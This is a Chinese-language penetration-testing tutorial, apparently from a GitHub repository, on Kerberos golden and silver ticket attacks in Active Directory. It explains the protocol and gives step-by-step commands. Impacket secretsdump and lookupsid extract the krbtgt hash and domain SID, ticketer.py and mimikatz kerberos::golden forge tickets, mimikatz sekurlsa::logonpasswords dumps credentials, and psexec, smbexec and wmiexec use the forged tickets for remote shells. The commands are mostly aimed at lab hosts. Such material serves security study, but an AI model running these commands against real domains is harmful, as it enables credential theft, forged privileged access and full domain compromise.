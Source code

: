 # 黄金白银票据的原理及利用
## 票据传递攻击
## 黄金票据原理
在Kerberos认证中,Client通过AS(身份认证服务)认证后,AS会给Client一个
Logon Session Key和TGT,而Logon Session Key并不会保存在KDC中，krbtgt的NTLM Hash又是固定的,所以只要得到krbtgt的NTLM Hash，就可以伪造TGT和Logon Session Key来进入下一步Client与TGS的交互。而已有了金票后,就跳过AS验证,不用验证账户和密码,所以也不担心域管密码修改。

## 特点
不需要与AS进行交互，需要用户krbtgt的Hash

## 利用Impacket包远程生成黄金票据
### 获取 krbtgt NT hash
这个脚本将利用域管账号远程导出域控的krbtgt NT hash 导到~/ 中的 win2016 文件
```
ecretsdump.py Administrator:vagrant@192.168.64.133 | grep krbtgt | grep ::: > ~/win2016; cat ~/win2016
```
### 获取域SID
利用  lookupsid.py 脚本远程导出Domain SID

```
lookupsid.py Administrator:vagrant@192.168.64.133 | grep "Domain SID" >> ~/win2016; cat ~/win2016
```
### 获取域名
当忘记域名的时候可以用这个bat脚本在该机器上获取域名
```
echo "powershell Get-WmiObject Win32_ComputerSystem" > ~/GetDomain.bat
```
然后利用psexec.py 脚本远程执行上面的bat
```  
psexec.py Administrator:vagrant@192.168.64.133 -c ~/GetDomain.bat | grep Domain >> ~/win2016; cat ~/win2016
```
### 生成票据
```
ticketer.py -nthash 4031b5ae4b9defa1f411f26610493e0c -domain-sid S-1-5-21-126282473-2140987555-3925513934 -domain Win2016.local baduser
```

### 使用票据
psexec.py 使用黄金票据需要将其导出来
#### 导出黄金票据
```
echo "export KRB5CCNAME=/vagrant/docs/baduser.ccache" >> ~/.bashrc
. ~/.bashrc
tail ~/.bashrc
```
#### Psexec利用黄金票据
```
export KRB5CCNAME=/vagrant/docs/baduser.ccache; psexec.py -dc-ip 192.168.64.133 -target-ip 192.168.64.133 -no-pass -k Win2016.local/baduser@Win2016.Win2016.local
```
## windows 利用Mimikatz 本地生成
```
#生成票据
mimikatz.exe "kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-1349129144-367733775 /rc4:b18b4b218eccad1c223306ea1916885f /user:stegosaurus /service:cifs /target:labwws02.jurassic.park"
#利用mimikatz 或 Rubeus 将该票据注入内存
mimikatz.exe "kerberos::ptt ticket.kirbi"
.\Rubeus.exe ptt /ticket:ticket.kirbi
#利用票据获得shell
.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd
```
## 白银票据
## 原理
如果说黄金票据是伪造的TGT,那么白银票据就是伪造的ST。
在Kerberos认证的第三部，Client带着ST和Authenticator3向Server上的某个服务进行请求，Server接收到Client的请求之后,通过自己的Master Key 解密ST,从而获得 Session Key。通过 Session Key 解密 Authenticator3,进而验证对方的身份,验证成功就让 Client 访问server上的指定服务了。
所以我们只需要知道Server用户的Hash就可以伪造出一个ST,且不会经过KDC,但是伪造的门票只对部分服务起作用。

## 特点
1.不需要与KDC进行交互 2.需要server的NTLM hash


## 获取服务账号NTLM Hash
mimikatz的命令，得到SID和NTLM
```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit">log.txt
```



## imapcket生成白银票据
![](https://github.com/person-hack/penetration-testing/blob/main/imags/黄金白银票据的原理及利用.PNG)

```
# 利用服务账号 NTLM Hash 生成TGS票据用户名随便写 服务名根据上表 常用可利用的服务CIFS(磁盘共享的服务) /service:CIFS

python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# 利用AES-key 生成 TGS票据
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# 设置该票据到imapcket 包中
export KRB5CCNAME=<TGS_ccache_file>

# 将TGS进行远程利用
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

## Mimikatz 生成白银票据
```
# 利用服务账号 NTLM Hash 生成TGS票据
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# 利用128 位AES-key 生成 TGS票据
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# 利用256 位AES-key 生成 TGS票据)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# 利用mimikatz 将TGS注入
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

## 区别
### 获取权限的不同
金票：伪造的TGT，可以获取任意Kerberos的访问权限

银票：伪造的ST，只能访问指定的服务，如CIFS
### 认证流程不同
金票：同KDC交互，但不同AS交互

银票：不同KDC交互，直接访问Server

### 加密方式不同
金票：由krbtgt NTLM Hash 加密

银票：由服务账号 NTLM Hash 加密




### 参考
https://www.jianshu.com/p/4936da524040

https://book.hacktricks.xyz/windows/active-directory-methodology/silver-ticket

https://yojimbosecurity.ninja/golden-ticket-with-impacket/

https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
